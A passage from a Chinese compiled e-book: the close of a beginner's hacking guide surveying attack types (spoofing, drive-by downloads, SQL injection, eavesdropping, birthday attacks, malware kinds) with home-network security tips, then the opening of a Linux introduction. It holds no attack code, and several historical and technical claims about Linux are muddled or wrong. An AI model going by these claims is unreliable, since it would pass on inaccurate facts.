黑客进入并进行此类攻击的最简单方法之一是借助电子邮件欺骗。这是当你邮件中的某部分信息被伪造，使其看起来实际上是来自你由于认识而信任的人（因为你认识他们）。另一种技术是黑客会通过诸如复制合法网站来欺骗你，让你输入一些登录凭据以及更多信息，供他们以后需要时使用。

### 旁路攻击 (Drive-By Attack)

旁路式下载攻击（drive-by download attack）是黑客用来帮助传播他们某些恶意软件的常用方法。黑客会花时间寻找不安全的网站，并在这些页面之一的 `PHP` 或 `HTTP` 代码中植入恶意脚本。该脚本通常会直接在访问该网站的任何人的计算机上安装某些恶意软件，或者进行重定向，使用户最终进入由黑客控制的网站。

与网络上的许多其他类型攻击不同，这种攻击不依赖于用户积极执行任何操作来启动。你不需要打开邮件中的恶意附件或点击按钮即可被感染。对于这类攻击，问题在于网络浏览器、操作系统或应用程序，它们由于缺乏更新（或至少更新并不成功）包含了许多安全漏洞。

为了帮助你确保免受这些旁路攻击的影响，你需要确保你的操作系统和浏览器都是最新版本，并避免任何看起来可疑且可能包含恶意代码的网站。坚持使用经常使用的网站，但要保持警惕，因为这些网站可能有问题。不要在设备上保留大量不必要的应用程序和程序。设备上的插件和程序越多，你面临此类攻击的漏洞就越多。

### SQL 注入攻击 (SQL Injection Attack)

列表中的下一个是 `SQL` 注入攻击。这对于由数据库驱动的网站正成为一个大问题。当黑客通过从客户端到服务器的输入数据向数据库执行 `SQL query` 时，就会发生。这些命令被插入到数据输入中，以便你在 `SQL` 中预定义的命令生效。这种类型的成功攻击能够从数据库读取敏感数据，修改数据库中的数据，在数据库上执行管理员的一些操作，恢复你所选的文件内容，有时还会向该操作系统发布某些命令。

你现在的数据库有多脆弱，取决于 `SQL` 实际上并没有真正对数据面和控制面进行区分。这意味着当网站使用动态形式的 `SQL` 时，`SQL` 注入通常会生效。在我们处理 `PHP` 和 `ASP` 应用时，这种情况也很常见，因为它们使用的接口在过程中较旧。这就是为什么黑客喜欢尝试攻击那些较旧的数据库，而不是一些较新的方案。

为了确保你免受此类攻击的影响，你需要在你处理的数据库上应用所谓的最小权限权限模型。


你还希望坚持使用存储的存储过程，确保这些过程不包含任何动态 SQL，并使用预处理语句，这些预处理语句被称为参数化查询。

在数据库上执行的代码必须非常强壮，强大到足以帮助我们防止注入攻击。此外，我们还希望在应用程序层级能够对输入数据进行白名单验证，以确保它按照我们想要的方式运行。

## 窃听攻击 (Eavesdropping Attack)

下一个要关注的是窃听攻击。

当我们看到网络流量被拦截时，这些攻击就会发生。

当黑客能够窃听时，他们就会获取密码、信用卡号以及用户可能通过网络发送的一些机密信息，而用户通常认为这些信息是安全的。根据黑客试图做的操作，这可以是被动形式，也可以是主动形式。

首先，被动形式是指黑客在监听跨网络传输的一些消息时能够检测到信息。然后是主动窃听。

这是指黑客伪装成友好人员，主动获取信息，并在此时向发送者发送正确的查询。这有几种不同的名称，包括篡改、扫描和探测。

检测被动攻击是非常困难的，因为黑客通常只是坐在那里观察信息。但与主动攻击相比，处理这些攻击更为重要。这是因为在黑客获得有关网络和你的所有计算机工作的知识之前，主动攻击是无法发生的，除非他们先通过了被动攻击，否则它是起不起作用的。

我们可以做几件事来确保能够避免所有的主动和被动窃听攻击。但最好的选择是确保加密你的所有数据。这会让黑客的渗透变得困难得多，即使他们确实进入了网络并捕获了那些信息，他们在读取你的文档和消息时也会非常费力。

## 生日攻击 (Birthday Attack)

这是另一种我们可能并不经常听到的攻击，但它仍然是黑客经常使用的攻击之一。

这些是生日攻击，用于某些哈希算法，这些算法用于帮助验证正在使用的软件、数字签名或消息的完整性。

通过 `hash function` 处理的消息会产生一个固定长度的消息摘要或 `MD`。这个长度实际上独立独立于我们尝试发送或接收的输入消息的长度。这个 `MD` 的唯一性在于它能够表征你发送的消息，从而使黑客难以获取他们想要的访问权限。

这类攻击指的是黑客在通过哈希函数处理两个随机消息时，发现它们能够生成相同 `MD` 的概率。如果黑客能够为他的消息计算出与用户相同的 `MD`，那么黑客就可以安全地在不被发现的情况下将用户的消息替换为他们的消息。即使用户能够检查并比较 `MDs`，他们也无法检测到在此过程中发生了替换。

## 恶意软件攻击 (Malware Attack)

最后，我们需要看一眼黑客可以使用的一些恶意软件攻击。恶意软件，或 `malware`，是指任何在未经你同意的情况下被安装到你系统上的非预期软件。它有时会附着在某些合法代码上并传播，而另一些它会潜伏在你想要使用的某些有用应用程序内部。

当你探索黑客世界时，你会发现实际上有相当多的恶意软件类型我们可以处理，而且这使得它们在整体上难以被追踪和防止。我们需要注意的最常见的恶意软件类型包括：

1.  **宏病毒 (Macro viruses)**：这些是会感染 `Excel` 和 `Microsoft Word` 等应用程序的病毒。它们将附着在应用程序的初始化序列中。当我们打开此应用程序时，病毒会在将控制权移交给应用程序之前执行指令。然后病毒就能复制自身并附着到计算机上的其他代码上。
2.  **特洛伊木 (Trojans)**：是一种隐藏在某些有用程序中但会以恶意方式执行的程序。`Trojan` 和病毒的主要区别在于 `Trojan` 无法进行自我复制。除了帮助对系统发动攻击外，这种攻击还可以帮助建立后门，如果黑客以后需要，可以利用它。
3.  **逻辑炸弹 (Logic bombs)**：这是一种附加到应用程序中的恶意软件，会由特定事件触发。这可能是一个逻辑条件，也可以是一个特定的日期时间。
4.  **蠕虫 (Worms)**：这些与我们之前提到的病毒不同，它们不会附着于宿主机文件。相反，它们是自包含的程序，能够在计算机和网络之间传播。可以通过电子邮件附件传播，然后通过你邮件列表中的每一个联系人发送自己。这通常会在整个互联网上扩散并在拒绝服务攻击导致电子邮件服务器过载。
5.  **勒索软件 (Ransomware)**：这是恶意软件的一种，能够阻止对受害者数据的访问，并威胁除非支付赎金，否则发布或删除这些项目。虽然有些勒索软件只是在系统上加了一个简单的锁，并不难破解，但也有更先进的技术，使得在没有黑客提供的解密密钥的情况下几乎无法撤销。即使你拿到了密钥，也不能保证他们没有留下其他其他东西。
6.  **广告软件 (Adware)**：我们能够查看的另一个选项是所谓的 `adware`。在大多数情况下，它被用于营销。广告软件会在程序运行时显示横幅等更多内容，并在你浏览任何网站时自动下载到你的系统上。或者它可能出现在弹窗之类的东西中。这可能非常烦人，而且通常被认为不是最好的广告形式。
7.  **间谍软件 (Spyware)**：这是一种程序和恶意软件的形式，被安装用于收集有关用户、他们使用的计算机甚至他们浏览时的习惯的信息。它会追踪并跟踪你所做的一切，而你并不知道发生了什么，然后将这些信息发送给黑客。它还可以向你的系统下载并安装某些其他恶意程序。

这些只是黑客可以选择用来攻击其目标的一些不同攻击，而且所有这些攻击都可以为黑客提供他们他们关于系统的任何信息。


能够针对黑客以及他们试图用来对你的各种手段建立良好的防御，这将是你确保个人和财务信息尽可能保持安全、可靠的最重要的事情之一。

无论你使用何种方法或网络，这些攻击对于黑客来说都是可能的，因此请确保保持良好的防御，我们将在下一章中详细讨论这一点。

# 第 9 章：保持系统安全的简单步骤


在本指南中，我们将最后关注的内容将是如何确保你所工作的网络是安全的。

黑客总是想要进入你的网络，因为这会在很多方面使他们获益。但这对你来说完全没有益处。

能够保持网络安全（即使是你自己的个人网络也是如此），并确保黑客无法进入网络，将是你能做的最棒的事情之一。

这里的好消息是，有很多方法和技术可以使用，以确保你的网络尽可能保持安全可靠。你可以采取的一些确保网络和系统始终安全的步骤包括：

## 选择一个复杂的路由器名称

在保护你的网络时，重命名你正在使用的路由器通常是一个好主意。

将其命名为与你无关的内容会有帮助，特别是当黑客决定专门针对你时。

许多路由器的名称会带有识别身份的特征，或者带有你的名字。当你想要让黑客远离自己时，这二者都不是好的。因此，重命名这些路由器将极大地提高你信息的安全性。

你可以选择你喜欢的添加到路由器的名称，但要想一个你能识别、但他人难以追溯到你身上的名字。不要极端到写一个让人一眼看出你修改过它的名字，因为黑客会注意到这一点。但请考虑选择一个至少不包含你的任何名字或个人信息的名称。

## 选择强密码

当黑客想要窃取信息并进入你的网络时，他们首先尝试的目标之一就是密码。

如果你使用的密码弱、显而易见或与你的个人生活有关，那么你就是在为自己的失败埋下伏笔，因为黑客能够猜或破解它们，并进入他们想要的任何地方。

选择强密码并确保每个账户都使用不同的密码，将对你的网络安全性产生巨大影响。

首先考虑的是密码的强度。你不想选择一个弱密码或无法满足你需求的密码。密码越长，与你个人信息的关联越小，黑客就越难破解。你还需要确保我们不使用容易猜到的词汇，或者在面对暴力破解或字典攻击时容易被破解的词。

我们需要关注的另一点是，我们不想在多个账户使用同一个密码。如果黑客能够破解你其中一个账户的密码，而你有许多账户也使用相同的密码，你就麻烦了。你需要确保你使用的每个账户（特别是涉及个人和财务信息的账户）都有不同的密码。这更容易保持账户安全，即使黑客进入了你的一个账户，也不意味着他们能进入你所有的账户。

## 始终使用加密

在网络安全方面，加密将是你最好的朋友。这确保了你不仅仅是向对方发送普通信息，而是将其翻译成一种难以破解的代码。这增加了黑客的难度，因为有了正确的加密，即使他们真的偷了信息，想要打开并查看内容也会非常困难。

在大多数情况下，你使用的无线网络以及一些电子邮件服务器都带有你可以使用的多种加密。不过当我们谈论无线网络时，我们将看到三个主要选项，包括 `WEP`、`WPA` 和 `WPA2`。

为了更好地理解这种术语，`WPA2` 代表 Wi-Fi Protected Access 2（Wi-Fi 保护访问 2）。我们在之前的章节中没有花太多时间讨论这个，但它是我们之前讨论的 `WPA` 的进阶版本，是一种已成为该行业事实标准的安全协议。这意味着我们现代计算机上所有的无线网络都将兼容这种协议，让你可以使用这种加密来确保你的信息安全。

这其中存在一些问题，它绝不是一个完美的系统。但它比我们过去使用的选项要安全得多，这是一个好消息。然而，很快将推出一种新的安全协议，被称为 `WPA3`，旨在帮助修复 `WPA2` 中发现的一些安全问题。它还将带有一些安全增强，并帮助为所有需要的用户简化安全配置。

## 警惕公共无线连接

公共无线连接看起来是一个很棒的主意。它们让你在任何随意的地方工作有更多选择，而且在旅行时非常有用。我们可以在很多地方找到这些网络，如我们喜欢的餐厅、图书馆、咖啡馆等。虽然这些网络为我们的生活提供了我们想要的便利，但在涉及计算机安全时，它们并不总是最好的。

这样想：如果你只需要点击几次鼠标就能进入无线网络，那么黑客进入该网络并在在此过程中造成更大的损害会有多容易？许多黑客会出现在这些公共无线网络处，为了寻找安全性良好的电脑和目标并获取访问权限。

黑客在这里可以使用几种方法。首先，他们可以直接利用它进入你的电脑，并从那里窃取他们想要的信息。有时，他们会设置一个虚假的无线接入点，试图骗你连接到它，而不是你想使用的公共无线连接。这可以让他们更容易获取你的电脑和信息，并让你难以保持安全。

你能做的最好的事情是在使用这些公共无线连接之一时保持警惕。最好尽可能避免这些网络，但如果你确实需要使用，尝试不要使用个人信息，或者不要进入任何一旦被访问就会产生糟糕后果的网站。发发社交媒体和可能发发邮件没关系。但在这些此类网络上，不要开始登录你的银行账户或其他类似的地方。

列表中的下一步是回到电子邮件。


在本指南中，我们花了一些时间讨论了社会工程学，以及它是如何成为黑客在社会工程攻击中使用的完美工具的。

我们始终需要对收到的某些邮件中的中的附件和链接保持警惕。

事实上，除非你专门在等待某人发送的附件，否则永远不要打开附件。如果你不知道发件者是谁，那么千万不要为了这些而让你电脑的安全性面临风险。

黑客喜欢试图欺骗我们去打开那些我们本不应该打开的东西。

他们可能会给附件命名为一个看起来很有吸引力的名称，让我们觉得很想要打开它并使用它。

但一旦我们打开并查看内部内容，就会发现电脑上现在多了一些恶意软件或病毒。

我们天生是好奇心强的人，黑客会利用这一点来对付我们以获取他们想要的东西。但我们需要学会如何比他们更精明。

在现代世界中，如果我们不准备好避开某些攻击以及黑客试图对付我们的一些显而易见的方法，我们就会经常被欺骗。除非你真的认识发件者，并且知道他们正在给你发送附件，否则最好的方法是不打开邮件中收到的任何附件。

## 完成你电脑上的所有更新

是的，处理你电脑上所有必要的更新可能是一件苦差。

你必须停止手头的工作并等待一会儿（时间长短取决于需要执行的更新），而且这似乎总是发生在对你最不利的时候。

但是，保持电脑请求的某些软件和其他事物的更新，实际上对你计算机系统的安全至关重要。

当我们不进行并添加这些更新时（无论是电脑软件还是硬件的更新），你就是在自找麻烦。

通常，这些更新将为我们针对特定软件和硬件发现的某些常见问题和漏洞提供补丁和修复，这些是需要修复的。

当你进行更新时，这些补丁可以自动添加，这使得黑客利用系统并随心所欲变得困难。

如果你决定推迟更新或完全不更新，你就让那个漏洞一直暴露着。如果制作操作系统或其他需要更新的软件的公司为我们提供了漏洞补丁，你认为黑客需要多久就会知道这个漏洞已经存在？

黑客检查并利用这一点，用它来对付你只是时间问题。

尽管这有时非常浪费时间，并且似乎减慢了你完成任务的速度，但始终进行你需要的更新仍然是一个好主意。这将确保你妥善维护系统，并确保它在此过程中以你想要的方式运行。

## 禁用任何人远程访问你网络的能力

我们需要考虑的另一项有助于保持我们网络安全的协作方案是禁用远程访问。

市上的大多数路由器只允许在设备实际连接到路由器时才能访问其界面。

然而，也有少数路由器取消了这种安全措施，并允许对远程系统进行某些访问。

如果你有此功能，你需要确保它是关闭的，因为这会让黑客进入你的网络并引发问题变得更加困难。

一旦你能够关闭远程访问，恶意行为者会发现执行攻击变得困难得多。这一简单简单的动作将让黑客很难从他们尚未连接到无线网络的设备访问路由器的隐私设置。

这也是一个非常容易解决的办法，因为你只需要进入网络的 Web 界面并寻找 `Remote Administration`（远程管理）或 `Remote Access`（远程访问）。从那里，你可以按照步骤关闭这部分，从而让黑客进入你的网络并制造问题变得困难得多。

## 不要忘记防火墙

我们接下来花时间查看的是你电脑上的防火墙。

这些将为我们正在运行增加另一层保护，并确保我们能够捕获某些不该出现在这里的 `IP` 地址。

这些通常也是你应对 `Denial of Service`（拒绝服务）攻击的第一道防线。

硬件和软件防火墙对于你寻求的某些保护将非常有帮助。硬件防火墙也会出现在一些质量较高的无线路由器中。这将使得你的网络更容易受到某些潜在网络攻击的保护。

如果你发现你的路由器没有这个功能，可能是因为你已经用了一段时间了，而且在你购买路由器时它还没有这个功能，你有几个选择。

你可以更新你的路由器，这有助于增强你网络将拥的一些安全性。或者你可以在路由器上安装一个良好的防火墙设备，以让黑客进入你的家庭或业务网络制造问题变得困难。

在谈到这个话题时，你需要确保你的防病毒和反恶意软件尽可能保持最新状态。当你定期升级这些程序时，你会发现更容易将黑客挡在外面，并防止某些试图进入系统的恶意软件。

记住，黑客会不断尝试进入他们喜欢的网络，即使你觉得自己不够重要，或者觉得你有足够的资金或其他任何东西，并不意味着你不会成为大型攻击的受害者，到那时你会后悔没有采取这些防护措施的。

## 定期向员工更新安全协议

如果你想确保我们之前讨论的社会工程学不太可能发生，那么你需要确保你网络上的人不会被欺骗，也不会引发问题。

他们对这些安全问题的了解越多，对所有涉及的每个人来说就越好。例如，你应该定期让他们了解政策更新。这是一封他们需要审阅的邮件，还是定期参加某些课程，通常取决于你的公司以及他们持有的信息类型。如果出现了与你公司可能相关的新类型攻击，那么花时间与网络上的所有人讨论这些绝对是值得的。

我们有很多不同的方法可以确保我们的网络在此过程中尽可能保持安全和可靠。我们越能执行上述的步骤，留给黑客进入的随机机会就越少，我们的敏感信息就越安全。当我们让员工加入我们时，从长远来看，这将强大得多。

# 结论

感谢你读到《新手黑客》的最后。希望这本书具有启发性，并能够为你提供实现你任何目标所需的所有工具。


下一步是真正开始运用我们在本指南中已经过的各种技巧和建议。

当黑客介入时，会产生很多问题，如果我们不小心，他们将能够进入我们的网络，并在过程中引发他们想引发的任何问题。

这将使我们的身份和财务状况陷入危险，在当今这个互联的世界里，知道如何保持安全和可靠是至关重要的。

无论你是想保护自己的个人信息，还是负责维护整个网络的安全，都有许多方法和技术可以用来来实现这一目标。你花的时间的时间去研究并学习如何让这些功能满足你自己的需求，随着时间的推移，你的网络就会变得越来越安全。

基于此，本指南旨在帮助你学习一些维护网络的最佳方法，并确保它始终按照你的意愿运行，同时让你保持一定的控制权。

我们查看了许多维护网络安全所需的课题，包括渗透测试、如何入侵无线网络，以及如何保护自己的网站免受他人的侵害。

然而，我们并未停于此。

我们还研究了社会工程的一些基础知识，黑客经常使用这种方法来利用网络中最薄弱的一环——使用网络的人，通过获得他们的信任并让他们透露平时通常不会提供的信息。

这是你网络中的一个巨大漏洞，当黑客使用该网络时能够将他们挡在之外，可以帮助公司节省大量资金并维护其声誉。

我们还花时间研究了黑客攻击出现的其他几个方面。

例如，我们研究了入侵移动设备和智能手机有多简单，以及你可以采取哪些步骤来确保这种情况不会发生在你的设备上，以及根据黑客想要从你的网络中窃取类型的信息他们可能尝试的其他常见攻击等等。

我们甚至在最后添加了一些技巧和建议，以确保你的网络保持安全，你不会在此过程中成为黑客的受害者。

在涉及黑客攻击时，有很多需要考虑的不同选项，通常，我们在讨论这个话题时会有一些个人见解。但在本指南中，我们将介绍在进行黑客攻击时可以许多方法，以及使用这些方法来保护自己的信息和计算机安全。

当你准备好学习更多关于黑客攻击以及它对你的业务意味着什么时，请务必查看本指南以开始。

最后，如果你觉得这本书在任何方面都有帮助，我们将非常感谢你在 Amazon 上给出评价！

# 第 2 本：Linux 入门

## 学习 Linux 架构、安装、配置、基本功能、命令行以及所有核心要素（包括操作和编辑文件）的分步指南

Julian James McKinnon

# 引言

感谢抽出时间阅读这本书，它将教你关于 Linux 的方方面面。

就像生活中的任何事情一样，你希望在第一次使用时它就能正常工作。

你不想花费额外的时间去阅读说明书并尝试弄它是如何运行的。

例如，当你买一辆车时，大多数人并不关心这个或那个功能有多先进。

你只想把钥匙插入点火装置像驾驶其他车辆一样驾驶它。

当你需要了解某些特定信息时，去查阅手册获取该特定信息。

这本书旨在展示 Linux 能为你提供什么，而不是浪费你的时间给你许多你可能无意记住的枯燥数据。

如果你需要关于某事的更多信息，你可以利用你已有的基础知识，对该命令如何工作进行深层次的调查。

我一直发现，当我对任何事情都有基础性知识时，我通常知道该去哪里寻找信息，或者该问什么问题来获取我需要的信息。

正当我没有那些基础性知识时，我可能不知道从何处开始，这使得事情变得困难得多。

网上或其他其他参考资料中有大量信息，它们对书中大多数主题的描述将比我涵盖的深入得多。

尽管如此，我们大多数人没有时间或兴趣去阅读那些参考资料。

访问 Linux 系统有三种方式：

- 通过文本控制台。在这种方法中，用户直接连接到安装了 Linux 的计算机，然后通过非图形界面访问它。
- 从图形会话管理器（`X Window`）。在这里，用户直接连接到安装了 Linux 的计算机，并通过图形程序访问系统。
- 使用 `telnet` 或安全 shell（ssh）从远程计算机访问。

在上述任何情况下，都会出现以下内容（大致）：

- Login: （输入用户名）
- Password: （输入密码，屏幕上不显示）
- 出于安全考虑，密码必须满足某些条件，例如：
    - 至少六个字符
    - 至少包含一个数字或特殊字符以及两个字母
    - 与登录名不同

第一次访问系统时，使用的密码由系统管理员提供。

Linux 中有几种方法结束工作会话，取决于我们处于图形模式还是文本模式。

### 文本模式：
- 按 `<ctrl d` 键
- 输入 `exit` 命令。

### 图形模式：
`X Window` 的输出取决于正在运行的窗口管理器。

## 你可以使用 Linux 吗？

Linux 可以运行在不同类型的计算机系统上，因为有许多发行版本，你可以选择一个允许你在现有的计算机上安装操作系统的发行版。

目前，Linux 可以安装在带有以下处理器的计算机上：

- Hewlett-Packard HP PA RISC
- Alpha AXPs
- Motorola 68000 系列
- MIPS R5x00 R4x00
- PowerPC 和 PowerPC64
- 64-bit AMD64 处理器
- Intel 80x86 处理器
- Pentium 处理器

我写这本书的目标是为你提供最快速、希望也是最有趣的 Linux 介绍。

它的目的也是通过提供一组你可以尝试并查看结果的命令，帮助你更快地开始学习这个操作系统。

再次感谢你抽出时间阅读这本书。

我希望你发现学习 Linux 操作系统是有帮助且有趣的。

# 第 1 章：基础背景

Linux 最初仅仅是 20 世纪 90 年代初由一位名为 `Linus Torvalds` 的程序员在芬兰赫尔辛基大学作为一个业余项目开发的。

该项目的灵感源于一个名为 `Minix` 的小型 Unix（一种操作系统）系统，它是由 `Andy Tanenbaum` 教授开发的，他使用 Unix 代码向该大学的学生教授操作系统。

在当时，Unix 仅用于大学的学术目的。

教授开发了 `Minix`（Unix 的一个小型克隆版本），以便更深入地向他的学生教授操作系统。

Linus 受到 `Minix` 的启发，并开发了自己的克隆版本，他将其命名为 `Linux`。

1991 年 10 月 5 日，`Linus` 发布了版本 `0.02`-这是 Linux 的第一个版本。

虽然这个版本能够运行 Bourne shell（`bash`）——命令行界面以及一个名为 `GCC` 的编译器，但除此之外没有太多内容了。


`0.03` 版本在稍后发布，随着越来越多的人开始使用该软件，版本号增加到了 `0.10`。

在经过几次修订后，Linus 在 1992 年 3 月发布了 `0.95` 版本，这反映了他认为系统很快就能准备好“官方”发布的预期。

大约一年半后（1993 年 12 月），该版本终于达到了 `1.0`。

如今，Linux 是 Unix 的完全克隆，并且从那以后，它的用户群已经跨越了各个行业和大陆。

理解它的人看到并欣赏它在几乎所有领域中的应用——从汽车到智能手机，从冰箱等家用电器到超级计算机，这个操作系统无处不在。

Linux 运行着互联网的大部分网络、运行着你每天都能听到的各种科学突破的计算机，以及世界的证券交易所。

在你欣赏它的存在时，请不要忘记，在成为全球运行服务器、桌面和嵌入式系统的最佳平台之前，这个操作系统是可用最安全、最可靠且最省心的操作系统（而且现在依然如此）。

凭借如此短暂的历史，我相信你现在已经准备好接受一些信息，让你快速上手这个奇妙的平台。

## UNIX 的演变

在这一部分，我们将回顾 Linux 的历史。

现在提到 Linux 历史，在我开始讲述 Linux 的起源或它是如何演变之前，我们需要先看看计算机的演变。

### 计算机与 UNIX 的演变

如果大家都知道计算机是什么时候开发或引入的，它们非常大，是巨大的系统，价格昂。我想当计算机第一次开发时，它们就像我们现在的小房子一样大。

系统非常大，普通人很难负担得起。

当计算机开始演变时，每家公司都有不同的操作系统，他们通常购买硬件，创建自己的操作系统，并按照自己公司的规范来运行计算机。

由于不同的公司购买硬件且不同的公司引入自己的操作系统，问题在于每台计算机都是为了特定目的而开发的，这意味着每个系统都有特定的用途，例如一台服务器有一个特定的用途，一个工作站有一个特定的用途，但在所有系统、服务器或工作站之间没有统一的操作系统。

问题在于这些系统极其昂贵，因为在计算机计算机创建的年代，硬件成本非常高。

如果你将其与手机比较起来，手机在最初创建时也非常昂贵。

但现在今天，如果你看到需求如此之大，硬件成本已经下降，任何人都可以购买手机。

计算机也是如此。

今天你可以以负担得起的价格买计算机，因为有很多公司在制造计算机，这意味着大量的竞争。

所以，当需求增加、竞争增加时，价格肯定会下降。

但在计算机刚开始时，任何人都无法负担得起计算机，这就是为什么只有公司才买得起计算机，而且它们极其昂贵。

此外，在那个年代，理解和学习计算机需要特定的技能。

所以，对于普通人来说，学习和理解计算机或操作系统是不可能的。

每家公司都有技术劳动力，有能够操作和在这些特定计算机上工作的精英。

这就是计算机的主要演变，它就是这样开始的。

现在理解一下这个演变中的问题：确实存在一个问题。

问题是，在硬件或计算机操作系统方面，每家公司都有自己的垄断。

他们开发自己的操作系统。

所以，在涉及计算机以及构建自己操作系统的公司时，操作系统并没有标准化。

这就是为什么在 `1969` 年，一个开发团队在贝尔实验室（Bell Labs）开始了工作。

我不确定，但你们中许多人可能听说过贝尔实验室。

那里是 `C` 语言首次开发的地方。

正是在这个实验室，一个开发团队想，为什么不构建一个可以跨计算机使用的标准操作系统，这样人们就不必担心硬件或软件了。

最初，问题是硬件方面的成本，然后是为特定计算机构建操作系统的另一种成本。

为了降低这种成本，开发者们想，为什么不创建一个标准的操作系统呢，这样人们就可以购买标准的硬件。

他们可以购买或安装标准的操作系统，然后继续开发或使用他们的应用程序。

那就是它开始的地方，或者说是 `UNIX` 的起源。

`UNIX` 项目的目标是为所有计算机创建非常通用的软件，因为所有公司都在开发自己的操作系统；这是一项非常艰巨的工作。

所以他们希望将其标准化。

基于此，项目被命名为 `UNIX`，并开始朝着一个共同的目标努力，那就是为所有计算机创建一个通用的软件。

`UNIX` 或 `UNIX` 操作系统是基于 `C` 语言启动的。

现在团队在开发 `UNIX` 操作系统方面有了进一步的目标，目标是创建一个易于理解、可重复或可回收的代码。

这种可回收的代码被称为 `kernel`（内核）。

`kernel` 是操作系统的一个部分，因为操作系统有多个组件。

`kernel` 负责与硬件和软件进行通信。

它是直接与你的计算机硬件通信的部分。

`kernel` 是可回收的，并用于开发操作系统和增强功能。

现在许多人做的是使用这个 `kernel`，因为它是标准代码，他们可以通过修改 `kernel` 或与 `kernel` 通信的软件或与 `kernel` 通信的应用程序来开发他们自己的 `UNIX` 变体，因为它是一个标准层。

早以前，你必须开发一个直接与硬件通信的操作系统。

现在你有一个层，即 `kernel` 或者一个负责与硬件通信的中间人。

所以我们需要创建只能直接与 `kernel` 通信的应用程序，因为 `kernel` 处理与硬件的通信。

开发直接与硬件通信的应用程序并不是要求的。

我们有一个标准的 `kernel` 层，所以应用程序将与 `kernel` 通信，而 `kernel` 转将与硬件通信。

该项目的另一个目标是使用开源代码开发 `UNIX` 操作系统。

这意味着 `UNIX` 操作系统的代码是对任何人开放的。

任何人都可以阅读 `kernel`；任何人都可以根据需要进行修改，并可以使用 `kernel` 构建其他变体的 `UNIX` 操作系统。

由于 `UNIX` 是一个复杂的操作系统，在开始，它只存在于大学、政府、机构和大企业中。

但随后，正如我们看到的 `UNIX` 源代码是开源的，像 `IBM-AIX`、`HP-UX`、`Sun Solaris` 这样的公司开始创建自己的 `UNIX` 变体。

## Linux 如何出现

作为一个最初的操作系统，`UNIX` 操作系统非常复杂或非常难以配置。

只有大公司才能负担得起使用 `UNIX`、修改并将其用于自己的目的。

有一个叫 `Linus Torvalds` 的人。

他是芬兰的一个学生，他的目标是创建或设计一个免费提供的学术版 `UNIX`。

在 `1991` 年，他开始为他自己的 PC 编写代码。

Linux 项目就是这样开始的。


起初并没有打算创建一个能够挑战 `UNIX` 操作系统的庞大操作系统。

不，他的目标是创建一个免费获取的 `UNIX` 学院版本，但他只想为他的 Wizard 系统创建它，而这样做或实现这一目标的主要原因是他负担不起 `UNIX` 操作系统的费用。因此，他完全不知道这个项目会变得有多大。

起初他所做的，我想可能是因为他的自尊心，或者是因为他负担不起 `UNIX` 操作系统，他创建了免费的 `Linux` 操作系统，但限制了其商业用途，因为 `UNIX` 是一个商业操作系统，人们很难为了自己的目的使用 `UNIX`。

这就是为什么他创建了免费的 `Linux`，任何人都可以使用，但不能用于商业目的。因此，公司或大企业无法为了自己的目的购买或使用 `Linux` 操作系统。1992 年，他在 `GNU- General Public License` 下发布了 `Linux`。

今天，任何公司都可以使用 `Linux` 操作系统，因为它是完全免费的。你不需要许可证。如今 `Linux` 几乎无处不在。它被用于超级计算机、笔记本电脑、平板电脑、手机、路由器、洗衣机、手表、服务器、汽车等，几乎无处不在。

## Linux 特性

### 多用户操作系统
多个用户可以从不同的终端连接到同一个操作系统，并利用 `RAM`、`硬盘` 等硬件资源同时在操作系统上工作。因此，它不像一个用户连接到操作系统，而另一个用户在第一个用户注销之前无法连接。多个用户可以连接到同一个操作系统并在 `Linux` 操作系统上工作。

### 多任务
多任务意味着 `Linux` 操作系统内部的任务、系统调用或用户请求；它是如此智能的，能够根据 `CPU threads` 分配任务并处理多个任务。因此，所有任务都将被划分，并在涉及 `CPU threads` 时被并行执行。多个 `CPU threads` 会执行多个用户请求，这就是为什么多任务这个术语会出现的原因。

### 可移植性
可移植性并不意味着你可以将 `Linux` 操作系统放在优 盘或光盘上（当然，你可以这样做），但涉及到可移植性的核心点在于，你可以在任何硬件上安装 `Linux`。它非常简单，就像我们刚刚看到的寻找 `Linux` 操作系统的场所一样。这意味着 `Linux` 很容易被移植到不同类型的硬件上。

### 安全
在 `Linux` 内部，我们有身份验证。当你尝试连接到 `Linux` 操作系统时，你绝对需要提供 `user ID` 和 `password`。当你尝试访问文件时，你就拥有所谓的 `permissions`（权限）。你需要拥有 `permissions` 才能访问文件，而且文件可以在操作系统内部进行加密，这样当没有权限的人尝试打开它时，它会被转换为不可读的格式。

### GUI 界面
我们也可以拥有 `Linux` 操作系统，如果你安装了一些包，你可以在 `GUI` 中使用 `Linux`。

注意：`Mac` 操作系统构建在 `Unix OS` 之上的。

### 文件系统
文件系统允许按系统的顺序安排文件和目录。

## 开源
这意味着任何人都可以免费下载、安装和使用 `Linux` 操作系统。

# 第 2 章：Linux 体系

在我们进入一些酷炫的代码并学习更多关于使用 `Linux` 系统可以做什么的之前，我们首先需要查看 `Linux` 是什么。虽然它可能没有像 `Mac` 和 `Windows` 等其他操作系统那样的知名度，但你会发现 `Linux` 正在创造自己的利基市场，并变得越来越流行。这就是为什么我们需要花一些时间学习更多关于它的信息以及我们总体可以用它做什么。

从汽车到智能手机，从家用应用到超级计算机，从企业服务器到家用桌面电脑，这个操作系统将出现在我们身边。在某些方面，这是一个新的操作系统，它出现于 20 世纪 90 年代中期。从那时起，它拥有了全球范围内巨大的用户群。事实上，我们会发现 `Linux` 以各种形式存在于我们四周。

`Linux` 是多功能且是一个很棒的工作选择，所以你会发现它出现在你经常使用的很多选项中。例如，许多手机内部都有 `Linux`。此外，它还会出现在温控器、汽车、`Roku` 设备、电视机等很多地方。它还负责运行我们在互联网上发现的大部分内容，这也是一个很大的优势。

但是，除了作为全球嵌入式系统、服务器甚至桌面电脑大量工作的首选平台之外，`Linux` 还有许多我们可以依赖的优点。例如，与现的一些其他操作系统相比，它是你可以选择的最可靠、无后顾之且安全的选项之一。考虑到这些，现在是时候让我们深入学习更多关于这个操作系统的某些部分，以及我们如何利用这些部分为自己造益了。对于 `Linux` 平台的新手来说，这就是你需要知道的所有信息。

## 什么是 Linux？

